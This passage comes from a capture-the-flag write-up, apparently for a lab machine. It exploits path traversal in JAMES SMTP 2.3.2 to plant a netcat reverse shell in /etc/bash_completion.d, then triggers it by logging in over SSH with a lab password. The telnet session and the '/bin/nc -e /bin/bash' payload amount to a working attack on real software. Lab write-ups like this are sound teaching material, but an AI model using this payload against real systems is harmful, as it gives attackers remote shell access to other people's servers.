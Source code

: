     root@kali# telnet 10.10.10.51 25
    Trying 10.10.10.51...  
    Connected to 10.10.10.51.     
    Escape character is '^]'.              
    220 solidstate SMTP Server (JAMES SMTP Server 2.3.2) ready Wed, 29 Apr 2020 22:28:40 -0400 (EDT)
    EHLO 0xdf
    250-solidstate Hello 0xdf (10.10.14.47 [10.10.14.47])
    250-PIPELINING                            
    250 ENHANCEDSTATUSCODES
    MAIL FROM: <'0xdf@10.10.14.47>
    250 2.1.0 Sender <'0xdf@10.10.14.47> OK 
    RCPT TO: <../../../../../../../../etc/bash_completion.d>
    250 2.1.5 Recipient <../../../../../../../../etc/bash_completion.d@localhost> OK
    DATA
    354 Ok Send data ending with <CRLF>.<CRLF>               
    FROM: 0xdf@10.10.14.47            
    '
    /bin/nc -e /bin/bash 10.10.14.47 443
    .
    250 2.6.0 Message received                          
    quit                                                      
    221 2.0.0 solidstate Service closing transmission channel
    Connection closed by foreign host.     
    

This creates a file in `/etc/bash_completion.d` that contains my reverse
shell. So the next time any user logs in, I’ll get a shell as that user. It is
important to add the `'` at the start of the first header, `MAIL FROM`. Then I
close that `'` just before my payload. Later, when this file is run by `bash`,
that will lump all those lines into one broken command, which will fail and
continue. Without the `'`, there are lines that will crash and break the
script before the reverse shell can run.

I had to play with payloads to get this working, and I’ll explore this a bit
in Beyond Root. I did find when doing things manually, `/bin/nc -e /bin/bash
10.10.14.47 443` worked, where as others didn’t. When using the Python script,
several payloads worked. That seems to have to do with the way the Python
script can add `\r`.

#### Trigger -> Shell

Now I can SSH as mindy, and trigger the code. There are new `rbash` errors
from the exploit, and then the terminal just hangs:

    
    
    root@kali# sshpass -p 'P@55W0rd1!2@' ssh mindy@10.10.10.51
    Linux solidstate 4.9.0-3-686-pae #1 SMP Debian 4.9.30-2+deb9u3 (2017-08-06) i686
    
    The programs included with the Debian GNU/Linux system are free software;
    the exact distribution terms for each program are described in the
    individual files in /usr/share/doc/*/copyright.
    
    Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
    permitted by applicable law.
    Last login: Tue Aug 22 14:00:02 2017 from 192.168.11.142
    -rbash: $'\254\355\005sr\036org.apache.james.core.MailImpl\304x\r\345\274\317ݬ\003': command not found
    -rbash: L: command not found
    -rbash: attributestLjava/util/HashMap: No such file or directory
    -rbash: L
             errorMessagetLjava/lang/String: No such file or directory
    -rbash: L
             lastUpdatedtLjava/util/Date: No such file or directory
    -rbash: Lmessaget!Ljavax/mail/internet/MimeMessage: No such file or directory
    -rbash: $'L\004nameq~\002L': command not found
    -rbash: recipientstLjava/util/Collection: No such file or directory
    -rbash: L: command not found